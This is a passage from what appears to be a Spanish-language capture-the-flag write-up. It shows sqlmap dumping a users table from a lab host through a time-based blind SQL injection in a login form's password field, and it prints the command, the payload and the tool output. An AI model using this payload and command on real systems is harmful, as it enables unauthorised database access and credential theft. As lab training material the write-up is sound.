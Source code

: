 ```
| username | varchar(50) |
+----------+-------------+

[14:14:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.25.0.2'

[*] ending @ 14:14:19 /2024-08-21/
```

Ahora sabiendo como se compone nuestra tabla, podremos ver lo que contiene.

```shell
sqlmap -r request.txt --batch -D crackofftrue_db -T users --threads 10 --dump
```

Info:

```
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8.7#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:14:52 /2024-08-21/

[14:14:52] [INFO] parsing HTTP request from 'request.txt'
[14:14:52] [INFO] resuming back-end DBMS 'mysql' 
[14:14:52] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.25.0.2/error.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 
username=admin&password=admin' AND (SELECT 5760 FROM (SELECT(SLEEP(5)))bBpi) AND 'gWSm'='gWSm
---
[14:14:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[14:14:52] [INFO] fetching columns for table 'users' in database 'crackofftrue_db'
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[14:14:52] [INFO] resumed: 3
[14:14:52] [INFO] resumed: id
[14:14:52] [INFO] resumed: password
[14:14:52] [INFO] resumed: username
[14:14:52] [INFO] fetching entries for table 'users' in database 'crackofftrue_db'
[14:14:52] [INFO] fetching number of entries for table 'users' in database 'crackofftrue_db'
[14:14:52] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                         
[14:14:52] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
1
```